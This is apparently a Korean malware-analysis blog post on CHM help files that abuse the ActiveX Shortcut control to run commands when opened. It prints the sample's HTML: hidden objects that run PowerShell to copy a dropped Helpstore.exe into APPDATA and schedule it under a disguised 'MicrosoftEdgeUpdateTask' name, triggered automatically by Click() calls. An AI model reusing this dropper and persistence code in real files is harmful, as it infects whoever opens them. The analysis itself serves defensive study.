

CHM 파일(Compiled HTML Help File)은 도움말 파일이라고도 불리며, Microsoft에서 개발한 파일 형식으로 HTML 문서와 관련 리소스를 하나의 파일로 압축하여 저장한 파일입니다. 공격자는 CHM 파일이 ActiveX를 지원하는 것을 악용하여, 단순히 CHM 파일을 오픈하는 것만으로 사용자의 간섭없이 악성코드를 실행합니다.


## <mark>0. CHM 파일</mark>

CHM 파일은 일반적으로 윈도우 도움말에 활용되는 파일입니다. 공격자는 해당 부분을 악용하여 마치 정상 파일처럼 위장하여 악성코드를 실행하게 만듭니다.


CHM 파일을 실행하게 되면, hh.exe라는 microsoft html help executable program을 사용하여 실행되게 됩니다.


HTML 문서와 리소스가 하나의 파일로 압축되어 있기 때문에 압축 해제를 통해 파일 내부를 확인할 수 있습니다. 내부에 의심스러운 파일이 존재하는지, 존재하는 HTML 파일 내에 ActiveX 관련 코드가 존재하는지 확인할 필요가 있습니다.


## <mark>1. ActiveX Shortcut</mark>

ActiveX Shortcut Command는 지정된 작업의 Shortcut을 생성합니다. 여기서 중요한 속성은 Item1으로 실행 파일에 대한 경로와 매개변수를 지정할 수 있습니다. 공격자는 해당 속성에 명령어를 삽입하여 악성 행위를 수행합니다.

> 🔗[About ActiveX Shortcut Command](https://documentation.help/HTML-Help-ActiveX/ocx_shortcut.htm)

| **Property**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [Button](https://documentation.help/HTML-Help-ActiveX/ocx_pbutton.htm) | Specifies the button style. Optional.                        |
| [Command](https://documentation.help/HTML-Help-ActiveX/ocx_pcommand.htm) | Calls the **Shortcut** command.                              |
| [Font](https://documentation.help/HTML-Help-ActiveX/ocx_pfont.htm) | Specifies the font attributes. Optional.                     |
| [Item1](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the file path to the executable file (.exe) for the program, and any parameters to be sent to the program. These values are delimited by a comma. HTML Help does not support `%WINDIR%` or other system variables in the file path. |
| [Item2](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the message ID of a standard Windows message, a *wPARAM* value, and a *lPARAM* value. These values are delimited by a comma. |
| [Text](https://documentation.help/HTML-Help-ActiveX/ocx_ptext.htm) | Specifies the link text. Optional.                           |


## <mark>2. 악성 CHM 샘플 분석</mark>

### ▪ <u>파일 내부 확인</u>

압축 해제를 통해 CHM 파일 내부를 확인하여 의심스러운 파일이 존재하는지 확인합니다. 샘플에서는 Helpstore.exe 라는 실행 파일이 확인되었습니다.


해당 파일을 PPEE, pestudio를 사용해 확인해보니 의심스러운 리소스가 확인되었습니다.


### ▪ <u>HTML 파일 확인</u>

CHM 파일을 실행하게 되면, 내부에 존재하는 HTML 파일들이 실행되게 되기 때문에 내부에 악성 스크립트가 존재하는지 확인할 필요가 있습니다. 샘플 내부에는 index.html 파일이 존재했고 코드를 확인해보니 ActiveX ShortCut 명령어가 확인되었습니다.



### ▪ <u>ActiveX ShortCut 분석</u>

공격자는 **CLSID_HHCtrl Object = {adb880a6-d8ff-11cf-9377-00aa003b7a11}**를 사용해 HHCtrl Object를 생성하여 ActiveX Shortcut을 사용합니다. Item1 속성을 확인해보니, Helpstore.exe를 드롭하고 schtasks를 사용하여 스케줄러에 등록하는 cmd 명령어가 발견되었습니다.

```html
<OBJECT id =qjswc classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1 style="display:none;">
	<PARAM name = "Command" value = "ShortCut">
	<PARAM name = "Button" value = "Bitmap::shortcut">
	<PARAM name = "Item1" value = ',cmd.exe,/c start /min /b powershell.exe -command "If (Test-Path \"$env:TEMP\") { Get-ChildItem \"$env:TEMP\" -File | Where-Object { $_.Length -eq 1596928 } | ForEach-Object { Copy-Item -Path $_.FullName -Destination \"$env:APPDATA\\Helpstore.exe\" -Force } }"'>
</OBJECT>

<OBJECT id=oheam classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=100 height=100 style="display:none;">
	<PARAM name="Command" value="ShortCut">
	<PARAM name="Button" value="Bitmap::shortcut">
	<PARAM name="Item1" value=',cmd.exe,/c start /min /b powershell.exe -WindowStyle Hidden -Command "schtasks /create /tn \"MicrosoftEdgeUpdateTask\" /tr \"%APPDATA%\Helpstore.exe\" /sc ONCE /st (Get-Date).AddMinutes(1).ToString(\"HH:mm\")"'>
</OBJECT>
```

악성 CHM 파일은 생성된 HHCtrl Object의 Click 메서드를 사용하여, CHM 파일을 실행하게 되면 지정한 명령이 실행되게 코딩되어 있습니다.

```html
<script>
	qjswc.Click();
	oheam.Click();
</script>
```

